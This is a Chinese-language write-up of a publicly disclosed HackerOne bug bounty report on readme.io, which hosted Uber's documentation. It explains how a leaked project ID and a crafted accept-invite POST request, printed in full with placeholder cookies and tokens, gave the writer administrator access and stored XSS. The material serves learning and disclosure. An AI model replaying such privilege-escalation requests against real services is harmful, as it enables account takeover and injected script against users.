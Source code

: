 # 漏洞散记
##  Uber的Xss第三弹
> 很有趣的XSS三连弹，作者分别在April，June,August提交了三次XSS，且完全利用在同一个地方，然而
就是通过了审查，并分别赚取了$3,000，$7,500，$5,000，简直无情，而且漏洞提交厂商是Uber，但实际影响最大
的却是另一个厂家:**readme.io**


> 漏洞价值:5000$

>源地址:[#152067](https://hackerone.com/reports/152067)

## 漏洞过程

> 只能说，这最后的漏洞是**真.越权**

同样还是在**readme.io**上找茬，**https://uber.readme.io/inactive**页面，不知道为什么，**readme**
将项目的ID号显示在了页面源代码里。(注:现在已经修复了，源码里看不到了)

### 关键点

作者通过访问Uber的项目找到了项目ID：**grab Uber's project ID from the source: 578cd33dc27ce20e004e397b**

![id](https://hackerone-attachments.s3.amazonaws.com/production/000/105/894/49e867fc0eab15cdc8a9503ac14745f0f786b5b3/uberid.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAJFXIS7KJADBA4QQA%2F20161209%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20161209T042901Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Signature=08f1784040c60f3600e9764cc6a39f44cc3e94ab7d5bf54048ce510d767e4227)

作者创建了一个新的**readme**用户，然后构造了如下的Post请求:

```
POST /api/accept-invite/5617f98f7f74330d00dfd86d HTTP/1.1
Host: dash.readme.io
Connection: close
Content-Length: 2
Accept: application/json, text/plain, /
X-NewRelic-ID: XQEHWF5UGwYHXVlSDgY=
Origin: https://dash.readme.io
X-XSRF-TOKEN:<your token here>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
DNT: 1
Referer: https://dash.readme.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.8,en;q=0.6
Cookie: <your cookies here>
```
Cookie是新用户的cookie，然而请求的Project-ID却是Uber的ID
(这个包是正常业务流程中会出现的)

返回包虽然是
```
"Invite doesn't exist"
```
但是当你再次访问**dash.readme.io**时，会发先你已经是Uber的管理员了，然后就能在前端插代码了，所以才
提交为**Stored Xss**

![admin](https://hackerone-attachments.s3.amazonaws.com/production/000/105/638/d6adda47b831f3d460f11aa44d6822f02c353095/dash.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAJFXIS7KJADBA4QQA%2F20161209%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20161209T042901Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Signature=0e869bef15037548ee6a66d2bdfae0336646c283ff47a0554a1a75b9d6d171c6)

### 结语
很尴尬，三连弹结束后。Uber不再使用readme了，而对于第三弹，我只能说这个越权越的我很服，而对于XSS，我也很庆幸学到了一种新的攻击技术
个人感觉，三连弹中第二弹的思路最为强悍，而第一弹的干货比较好，至于第三弹则相形见绌了
